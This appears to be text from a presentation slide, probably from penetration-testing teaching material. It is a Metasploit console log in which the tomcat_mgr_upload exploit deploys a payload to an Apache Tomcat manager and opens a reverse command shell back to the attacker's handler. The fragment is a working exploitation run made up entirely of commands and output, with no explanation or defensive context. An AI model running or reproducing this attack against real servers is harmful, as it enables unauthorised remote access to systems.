

msf5 exploit(multi/http/tomcat_mgr_upload) > exploit
[*] Started reverse TCP handler on 192.168.0.11:8080
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying u0hO...
[*] Executing u0hO...
[*] Undeploying u0hO ...
[*] Command shell session 1 opened (192.168.0.11:8080 -> 192.168.0.12:58154) at 2020-05-20 05:29:31 -0400